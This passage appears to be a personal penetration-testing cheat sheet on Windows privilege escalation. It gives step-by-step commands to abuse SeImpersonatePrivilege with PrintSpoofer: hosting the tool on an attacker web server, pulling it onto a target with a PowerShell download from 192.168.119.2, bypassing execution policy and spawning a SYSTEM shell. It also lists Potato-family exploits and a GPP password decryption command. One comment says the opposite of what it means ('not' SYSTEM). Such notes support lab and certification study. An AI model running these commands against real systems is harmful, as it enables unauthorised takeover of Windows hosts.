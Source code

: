 ```bash
get-service filename.exe
```

### SeImpersonatePrivilege

```bash
whoami /priv
```

```bash
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
python3 -m http.server 80
```

```bash
get-service # ensure that Spooler is running
powershell -ep bypass
iwr -uri http://192.168.119.2/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
.\PrintSpoofer64.exe -i -c powershell.exe # -i to interact w the process &  -c to specify the command we want to execute
whoami # Verify that it worked, that you are not NT AUTHORITY\SYSTEM
```

There are other similar tools such as RottenPotato, SweetPotato, or JuicyPotato.

```bash
# Juicy Potato - https://github.com/ohpe/juicy-potato
Abuse SeImpersonate or SeAssignPrimaryToken Privileges for System Impersonation

# Lovely Potato Automated Juicy Potato - https://github.com/TsukiCTF/Lovely-Potato
Works only until Windows Server 2016 and Windows 10 until patch 1803

# PrintSpoofer Exploit the PrinterBug for System Impersonation
Works for Windows Server 2019 and Windows 10, Spooler Service needs to be on

# RoguePotato Upgraded Juicy Potato
Works for Windows Server 2019 and Windows 10

# GodPotato - Best if Spooler Service isn't On
Try both NET2 and NET4 unless you know which one to use
```

#### Decrypt GPP Password

```bash
kali@kali:~$ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

#### Privileges Mapped to Exploits Page, such as SeImpersonate

"https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens"

#### Whenever you get a Shell
